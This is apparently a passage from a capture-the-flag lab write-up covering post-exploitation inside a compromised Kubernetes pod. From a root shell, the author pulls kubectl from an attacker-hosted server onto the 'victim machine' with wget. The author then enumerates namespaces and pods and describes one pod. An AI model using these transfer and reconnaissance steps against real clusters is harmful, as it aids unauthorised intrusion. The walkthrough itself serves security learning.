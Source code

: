 Transfer it to the vicitm machine and install it:
  root@webapp-deployment-5d764566f4-h5zhw:/tmp# wget http://10.10.14.2:4499/kubectl
  root@webapp-deployment-5d764566f4-h5zhw:/tmp# install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl
  root@webapp-deployment-5d764566f4-h5zhw:/tmp# kubectl version --client
    Client Version: version.Info{Major:"1", Minor:"22", GitVersion:"v1.22.1", GitCommit:"632ed300f2c34f6d6d15ca4cef3d3c7073412212", GitTreeState:"clean", BuildDate:"2021-08-19T15:45:37Z", GoVersion:"go1.16.7", Compiler:"gc", Platform:"linux/amd64"}

List the namespaces in the environment:
  root@webapp-deployment-5d764566f4-h5zhw:/tmp# ./kubectl get namespaces
    ./kubectl get namespaces
    NAME              STATUS   AGE
    default           Active   221d
    dev               Active   220d
    kube-node-lease   Active   221d
    kube-public       Active   221d
    kube-system       Active   221d

List the pods in the different namespaces (note only dev is accessible):
  <566f4-h5zhw:/tmp# ./kubectl get pods -n dev -o wide
    NAME                                READY   STATUS    RESTARTS   AGE    IP           NODE          NOMINATED NODE   READINESS GATES
    devnode-deployment-cd86fb5c-6ms8d   1/1     Running   30         220d   172.17.0.6   unobtainium   <none>           <none>
    devnode-deployment-cd86fb5c-mvrfz   1/1     Running   31         220d   172.17.0.4   unobtainium   <none>           <none>
    devnode-deployment-cd86fb5c-qlxww   1/1     Running   31         220d   172.17.0.7   unobtainium   <none>           <none>

Gather more information about one of the pods:
  root@webapp-deployment-5d764566f4-h5zhw:/opt# kubectl describe pod devnode-deployment-cd86fb5c-6ms8d -n dev
    Name:         devnode-deployment-cd86fb5c-6ms8d
    Namespace:    dev
    Priority:     0
    Node:         unobtainium/10.10.10.235
    Start Time:   Sun, 17 Jan 2021 18:16:21 +0000
    Labels:       app=devnode
                  pod-template-hash=cd86fb5c
    Annotations:  <none>
    Status:       Running
    IP:           172.17.0.6
    IPs:
      IP:           172.17.0.6
    Controlled By:  ReplicaSet/devnode-deployment-cd86fb5c
    Containers:
      devnode:
        Container ID:   docker://d1036502420a410dabfbc7421bdb212d76c5ec5c469aa9eb3a6aaddcb2614249
        Image:          localhost:5000/node_server
        Image ID:       docker-pullable://localhost:5000/node_server@sha256:f3bfd2fc13c7377a380e018279c6e9b647082ca590600672ff787e1bb918e37c
        Port:           3000/TCP
        Host Port:      0/TCP
        State:          Running
          Started:      Thu, 26 Aug 2021 08:25:19 +0000
        Last State:     Terminated
          Reason:       Error
          Exit Code:    137
          Started:      Mon, 26 Jul 2021 15:00:22 +0000
          Finished:     Mon, 26 Jul 2021 15:04:55 +0000
        Ready:          True
        Restart Count:  30
        Environment:    <none>
        Mounts: